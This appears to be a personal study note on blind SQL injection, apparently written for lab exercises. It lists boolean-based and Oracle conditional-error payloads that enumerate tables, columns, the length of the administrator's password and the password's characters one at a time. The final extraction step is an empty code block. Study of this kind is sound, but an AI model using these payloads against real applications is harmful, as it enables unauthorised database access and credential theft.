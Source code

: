 ```
'AND (SELECT 'zzz' FROM users where username='administrator')='zzz'--#
```
7. This payload enumerates the length of the password value for the administrator username
```
'AND (SELECT 'zzz' FROM users where username='administrator' and length(password)=20)='zzz'--#
```
8. Enumerate password characters one at a time
```
1. Confirms first character is GREATER THAN 'a'

'AND (SELECT substring(password,1,1) FROM users WHERE username='administrator')>'a--#

2. Confirms first character is NOT greater than 't'

'AND (SELECT substring(password,1,1) FROM users WHERE username='administrator')>'t--#

3. Confirms the first character is EQUAL TO 'f' - Note: Extra single quote added because we are commenting out the request of the query...

'AND (SELECT substring(password,1,1) FROM users WHERE username='administrator')='f'--#
```
9. [[SQLi demos#^c9e65b|Speed up with intruder]]
# Blind SQLi conditional errors
- Oracle DBMS
1. Detect conditional errors with probing payloads
```
'AND TO_CHAR(1/1)=1-- -
'AND TO_CHAR(1/0)=1-- -

'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM dual)-- -

'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE NULL END FROM dual)-- -
```
2. Determine number of columns
```
'ORDER BY 1-- #
'ORDER BY 2-- #
```
3. Enumerate table names
```
'||(SELECT '' FROM users WHERE ROWNUM = 1)-- -
'||(SELECT '' FROM not_exist WHERE ROWNUM = 1)-- -
```
4. Enumerate columns names
```
'UNION SELECT {column_name} FROM {table_name} WHERE 1=1-- #
```
- `200 OK` indicates column exists in the valid table name provided
5. This payload enumerates if the username exists in the `username` column
```
'||(SELECT CASE WHEN(1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE USERNAME='administrator')||'
```
6. Determine the length of the password for the `administrator` user
```
'||(SELECT CASE WHEN LENGTH(password)=19 THEN TO_CHAR(1/0) ELSE '' END FROM USERS WHERE USERNAME='administrator')-- #

'||(SELECT CASE WHEN LENGTH(password)=20 THEN TO_CHAR(1/0) ELSE '' END FROM USERS WHERE USERNAME='administrator')-- #
```
7. Extract data one character at a time using conditional errors
	- If the value extracted is correct, then a 1/0 error will result
```
```